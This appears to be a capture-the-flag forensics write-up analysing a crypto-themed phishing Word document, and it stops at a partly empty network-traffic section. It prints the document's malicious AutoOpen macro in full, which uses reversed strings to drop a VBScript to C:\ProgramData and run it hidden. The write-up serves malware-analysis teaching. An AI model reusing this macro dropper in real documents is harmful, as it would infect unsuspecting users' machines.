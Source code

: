 > We have been actively monitoring the most extensive spear-phishing campaign in recent history for the last two months.
> This campaign abuses the current crypto market crash to target disappointed crypto owners.
> A company's SOC team detected and provided us with a malicious email and some network traffic assessed to be associated with a user opening the document.
> Analyze the supplied files and figure out what happened.

> Author: **[0xdf][author-profile]**

## The doc

The document runs a macro when opened:

```shell
olevba2 --deobf --decode --reveal sources/mbcoin.doc > payloads/doc.vba
```

```vba
Sub AutoOpen()
    Dim QQ1 As Object
    Set QQ1 = ActiveDocument.Shapes(1)
    Dim QQ2 As Object
    Set QQ2 = ActiveDocument.Shapes(2)
    RO = StrReverse("\ataDmargorP\:C")
    ROI = RO + StrReverse("sbv.nip")
    ii = StrReverse("")
    Ne = StrReverse("IZOIZIMIZI")
    WW = QQ1.AlternativeText + QQ2.AlternativeText
    MyFile = FreeFile
    Open ROI For Output As #MyFile
    Print #MyFile, WW
    Close #MyFile
    fun = Shell(StrReverse("sbv.nip\ataDmargorP\:C exe.tpircsc k/ dmc"), Chr(48))

    waitTill = Now() + TimeValue("00:00:05")
    While Now() < waitTill
    Wend
    MsgBox ("Unfortunately you are not eligable for free coin!")
    End

End Sub
```

The final command string is reversed in the payload, but OleVBA actually wrangles it for us:

```vba
fun = Shell("cmd /k cscript.exe C:\ProgramData\pin.vbs", "0")
```

This payload is aimed at Windows users,

## The network traffic

```shell

```
3 streams, 2 binary and an HTTP 404 page.
[author-profile]: https://app.hackthebox.com/users/4935
